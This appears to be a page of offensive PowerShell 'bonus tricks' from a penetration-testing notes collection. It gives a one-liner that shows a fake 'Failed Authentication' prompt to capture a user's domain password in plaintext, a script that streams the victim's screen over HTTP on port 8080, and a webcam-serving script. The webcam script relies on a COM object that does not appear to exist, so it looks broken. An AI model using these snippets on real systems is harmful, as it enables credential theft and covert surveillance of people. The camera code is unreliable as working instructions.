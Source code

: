# Bonus Tricks

### Keylogger prompt

This is a neat trick that can be used during desperate times. It will spawn a UI prompt that will ask for the user's domain credentials using environment variables to pull the username, then display the password in plaintext to the attacker console. 

From a CMD.exe prompt:

```powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

- from Sektor7 Privilege Escalation course

### Serving Display on HTTP

This script captures the content of the primary screen, converts it to a JPEG image, and serves it over an HTTP web server on port 8080. The script will continuously update the image and serve it as long as the HTTP listener is running.

```
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://0.0.0.0:8080/")
$listener.Start()

Write-Host "Streaming server is running on http://0.0.0.0:8080/"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $response = $context.Response

    $stream = $response.OutputStream
    $imageStream = New-Object System.IO.MemoryStream

    $bitmap = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Location, [System.Drawing.Point]::Empty, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Size)

    $bitmap.Save($imageStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)

    $response.ContentType = "image/jpeg"
    $response.ContentLength64 = $imageStream.Length

    $imageStream.WriteTo($stream)

    $imageStream.Dispose()
    $stream.Dispose()
}

$listener.Stop()

```
## Serving Camera Feed on HTTP

This script does the following:

Imports the Windows PowerShell Web Server module.
Defines the path to your camera feed.
Starts the camera feed using the Windows Media Foundation APIs.
Sets up a virtual directory in the default web site that serves the camera feed.
Enables directory browsing and sets the directory browse flags.
Sets the web server to listen on port 8080.

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your camera feed
$cameraFeedPath = "C:\Path\To\Camera\Feed"

# Start the camera feed
$mediaSource = New-Object -ComObject 'MFMediaSource'
$mediaSource.OpenDevice("Video", "Integrated Webcam", $null, [System.Guid]::Empty)

# Set up the web server to serve the camera feed
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'CameraFeed' -PhysicalPath $cameraFeedPath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```
